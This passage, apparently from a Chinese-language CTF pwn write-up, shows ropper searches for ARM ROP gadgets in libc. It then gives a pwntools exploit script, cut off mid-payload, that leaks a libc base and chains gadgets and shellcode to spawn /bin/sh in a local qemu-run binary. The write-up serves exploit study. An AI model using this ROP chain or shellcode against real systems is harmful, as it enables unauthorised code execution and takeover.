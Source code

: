 ```c
0x00041308: mov r0, sp; blx r2; 
0x00052328: add r0, r0, #0x80; pop {r4, pc}; 
0x00048414: blx r0; 
```

所以只要控制r2即可，最开始我们能控制r0,r1,r4-r8,故从小号寄存器开始找：

```c
➜   ropper --file ./libc.so.0 --nocolor --search "mov r2, r0" | grep -v -E "bl #|bne #|beq #|b #|bls #|\["  
0x0002dea8: mov r2, r0; asr r3, r2, #0x1f; mov r1, r3; mov r0, r2; bx lr; 
0x00010850: mov r2, r0; mov r0, r2; add sp, sp, #0x10; pop {r4, r5, r6, pc}; 
0x00041304: mov r2, r0; mov r0, sp; blx r2; 

➜  ropper --file ./libc.so.0 --nocolor --search "mov r2, r1" | grep -v -E "bl #|bne #|beq #|b #|bls #|\["  
0x0003263c: mov r2, r1; mov r0, r2; pop {r4, pc}; 

➜  ropper --file ./libc.so.0 --nocolor --search "mov r2, r4" | grep -v -E "bl #|bne #|beq #|b #|bls #|\["  
0x0000c11c: mov r2, r4; mov r0, r2; pop {r4, r5, r7, pc}; 
```

看r1的那条最顺眼，故使用的所有gadget如下，同控制流顺序：

```c
0x00052634: pop {r1, pc};
0x0003263c: mov r2, r1; mov r0, r2; pop {r4, pc}; 
0x00041308: mov r0, sp; blx r2; 
0x00052328: add r0, r0, #0x80; pop {r4, pc}; 
0x00048414: blx r0; 
```

拼接方法：

![image](https://xuanxuanblingbling.github.io/assets/pic/rop/rop1.png)

### 最终exp

#### bin/sh

> shellcode: [http://shell-storm.org/shellcode/files/shellcode-659.php](http://shell-storm.org/shellcode/files/shellcode-659.php)

```python
from pwn import *
context(arch='arm',os='linux',log_level='debug')
io = process(["qemu-arm","-L",".","./pwntest"])

shellcode  =  "\x02\x20\x42\xe0"  
shellcode  += "\x1c\x30\x8f\xe2" 
shellcode  += "\x04\x30\x8d\xe5" 
shellcode  += "\x08\x20\x8d\xe5" 
shellcode  += "\x13\x02\xa0\xe1" 
shellcode  += "\x07\x20\xc3\xe5" 
shellcode  += "\x04\x30\x8f\xe2" 
shellcode  += "\x04\x10\x8d\xe2" 
shellcode  += "\x01\x20\xc3\xe5" 
shellcode  += "\x0b\x0b\x90\xef" 
shellcode  += "/bin/sh"

io.recvuntil("gift: ")
libc = int(io.recv(),16) - 0x660c0

padding  =  0x11111111
payload  =  p32(libc + 0x00052634) # pop {r1, pc};
payload +=  p32(libc + 0x00052328) # add r0, r0, #0x80; pop {r4, pc}; 
```